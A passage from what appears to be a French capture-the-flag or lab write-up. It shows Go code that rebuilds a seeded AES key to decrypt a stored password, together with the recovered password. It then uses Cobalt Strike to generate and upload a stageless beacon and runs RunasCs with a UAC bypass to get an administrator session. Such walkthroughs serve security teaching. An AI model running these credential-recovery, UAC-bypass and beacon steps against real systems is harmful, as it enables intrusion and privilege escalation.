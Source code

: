 ```go
        var b64_encrypted_pass = os.Args[2]
        var encrypted_pass, _ = base64.URLEncoding.DecodeString(b64_encrypted_pass)


        key := make([]byte, 16)
        iv := make([]byte, 16)

        rand.Seed(seed)

        for i := 0; i < 16; i++ {
                key[i] = (byte)(rand.Intn(254) + 1)
        }

        io.ReadAtLeast(crand.Reader, iv, 16)

        block, _ := aes.NewCipher(key)
        stream := cipher.NewCFBDecrypter(block, iv)

        stream.XORKeyStream(encrypted_pass, encrypted_pass)
        fmt.Printf("%s",encrypted_pass[len(encrypted_pass)-40:])

}
```

Et résultat:

```txt
go run recup-pass.go 20187148 "fUkHjs17zgsuryIRLgsFp1db2S0XYAL24ptvMcefXEhuAo802CTINDOs3zoMDMIArMdCAvuH2gM="
hmCziGdAJepaFtCpFDXngjldIoWZeIZERuLsUGdw
```

Super nickel! Maintenant on va pouvoir se connecter en tant que l'utilisateur `backup`, mais attention il y'a une difficulté supplémentaire: Si on essaye la fonctionnalité `spawnAs` de Cobalt Strike, on ne va pas recevoir de nouvelles session. La raison à cela est la présence de l'[UAC](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works). Très brièvement cette mesure de sécurité de Windows implique que par défault les processus sont lancées dans un contexte de basse intégrité et que pour lancer un programme en tant que membre du groupe d'aministrateurs locaux, un invite nommé le `consent prompt` va devoir être complété. Et cela vaut donc particulièrement pour l'usage de la commande `runas`.

Pour pouvoir outrepasser cette mesure depuis notre reverse shell on va utiliser ce [projet](https://github.com/antonioCoco/RunasCs) très connu qui met à disposition un outil similaire à runas mais avec une option de bypass d'UAC (Je ne vais pas rentrer dans les détails de comment le bypass fonctionne mais libre à vous d'aller regarder).

On va utiliser l'option de cobalt strike `Pivoting -> Listener` pour créer un nouveau listener et générer un nouveau beacon afin d'obtenir la session en tant qu'administrateur. On génère ensuite un payload stageless avec l'option `Payloads -> Windows Stageless Payload`, on l'upload et on a plus qu'à faire un:

```
shell RunasCs.exe backup hmCziGdAJepaFtCpFDXngjldIoWZeIZERuLsUGdw "c:\temp\www\internal\content\posts\internal-laps-alpha\beacon_x64.exe" --bypass-uac
```
